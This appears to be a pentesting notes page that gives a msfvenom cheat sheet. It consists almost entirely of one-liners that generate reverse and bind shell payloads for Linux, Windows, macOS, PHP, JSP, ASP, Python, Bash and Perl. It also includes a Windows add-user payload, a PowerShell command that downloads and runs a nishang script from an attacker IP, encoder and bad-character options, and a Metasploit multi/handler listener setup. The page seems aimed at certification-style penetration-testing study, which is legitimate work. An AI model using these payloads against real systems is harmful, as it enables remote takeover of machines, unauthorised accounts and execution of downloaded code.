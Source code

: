 ```yaml
---
title: "Msfvenom"
# pre : ' '
description: " Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit."
date: 2021-02-08T09:52:22+01:00
# hidden : true
# draft : true
weight: 1130
# tags : ['']
---
```


---

Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.

## Flags

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                   | Description                                     |
| :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :---------------------------------------------- |
| msfvenom -l payloads                                                                                                                                                                                                    | List available payloads                         |
| msfvenom -p PAYLOAD –list-options                                                                                                                                                                                       | List payload options                            |
| msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP                                                                                                                                                       | Payload Encoding                                |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                    | Linux Meterpreter reverse shell x86 multi stage |
| msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                       | Linux Meterpreter bind shell x86 multi stage    |
| msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                             | Linux bind shell x64 single stage               |
| msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                          | Linux reverse shell x64 single stage            |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                      | Windows Meterpreter reverse shell               |
| msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36” -f exe > shell.exe | Windows Meterpreter http reverse shell          |
| msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe                                                                                                                                        | Windows Meterpreter bind shell                  |
| msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                            | Windows CMD Multi Stage                         |
| msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                            | Windows CMD Single Stage                        |
| msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                                                              | Windows add user                                |
| msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                        | Mac Reverse Shell                               |
| msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                           | Mac Bind shell                                  |
| msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py                                                                                                                                               | Python Shell                                    |
| msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh                                                                                                                                                 | BASH Shell                                      |
| msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl                                                                                                                                                 | PERL Shell                                      |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp                                                                                                                                      | ASP Meterpreter shell                           |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp                                                                                                                                           | JSP Shell                                       |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war                                                                                                                                           | WAR Shell                                       |
| msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php                                                                                                                            | pbcopy && echo '?php '                          |
| msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php                                                                                                                                            | Php Reverse Shell                               |
| msfvenom -a x86 –platform Windows -p windows/exec CMD="powershell \“IEX(New-Object Net.webClient).downloadString('<http://IP/nishang.ps1')"”> -f python                                                                   | Windows Exec Nishang Powershell in python       |
| msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b “\x04\xA0”                                                                                                     | Bad characters shikata_ga_nai                   |
| msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b “\x04\xA0”                                                                                                        | Bad characters fnstenv_mov                      |

## Examples

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,

```plain
msf>use exploit/multi/handler
msf>set payload windows/meterpreter/reverse_tcp
msf>set lhost <IP>
msf>set lport <PORT>
msf> set ExitOnSession false
msf>exploit -j
```

The -j option is to keep all the connected session in the background.

## URL List

- [Thor-sec.com - msfvenom cheat sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)
